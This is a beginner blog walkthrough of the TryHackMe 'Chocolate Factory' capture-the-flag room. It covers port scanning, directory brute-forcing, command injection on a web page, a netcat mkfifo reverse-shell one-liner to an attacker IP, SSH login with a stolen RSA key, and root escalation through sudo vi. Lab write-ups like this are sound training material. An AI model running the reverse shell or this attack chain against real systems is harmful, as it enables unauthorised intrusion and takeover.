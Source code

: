 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners. 
Let’s get started. Firstly Deploy the machine and wait a minute for getting the IP address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

## Enumeration
 
     sudo nmap -sV -sC -v <ip>
    
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result looks like,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see FTP running on port 21, ssh running on port 22, and webserver in port 80 Then try Open browser enter IP address default web server running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying SQL injection but nothing changes, So Check the directories using the gobuster tool.

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
  Remember one thing disable your ufw firewall before running the listening netcat. <br />
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   then list out the file and read the file..
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change the permission.
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into the terminal and hit enter <br />
   Now root user <br >
   change charlie to root <br />
   
    su root
   
   
   list the files and run python file, enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  

